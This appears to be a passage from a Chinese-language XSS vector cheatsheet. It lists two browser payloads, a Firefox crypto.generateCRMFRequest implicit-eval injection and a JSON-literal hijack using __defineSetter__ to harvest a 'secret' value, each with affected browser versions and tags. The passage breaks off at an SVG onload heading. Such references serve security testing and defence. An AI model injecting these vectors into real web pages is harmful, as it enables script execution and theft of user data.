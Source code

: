 这个向量披露了火狐中crypto对象的一个隐式eval()


```
<script>crypto.generateCRMFRequest('CN=0',0,0,null,'alert(1)',384,null,'rsa-dual-use')</script>
```

*   firefox 2.x
*   firefox 34.0

*   xss
*   dom
*   firefox
*   crypto
*   eval
*   csp
*   proprietary

*   [https://developer.mozilla.org/en/JavaScript_crypto](https://developer.mozilla.org/en/JavaScript_crypto)

reporter：.mario

## 基于JSON的向量

### Self-hijacking JSON literals[#54](#54)[test](test/#54)

In case parts of a JSON literal are controlled by user input there's a risk to allow auto-harvesting values from later object members.


```
<script>[{'a':Object.prototype.__defineSetter__('b',function(){alert(arguments[0])}),'b':['secret']}]</script>
```

*   opera 10.0
*   opera 10.10

*   chrome 4.0
*   chrome 6.0

*   firefox 1.x
*   firefox 3.0.19

*   xss
*   javascript
*   json
*   __definesetter__
*   object
*   prototype

reporter：.mario

## SVG内的向量

### 通过SVG中G标签的onload属性执行Javascript[#11](#11)[test](test/#11)
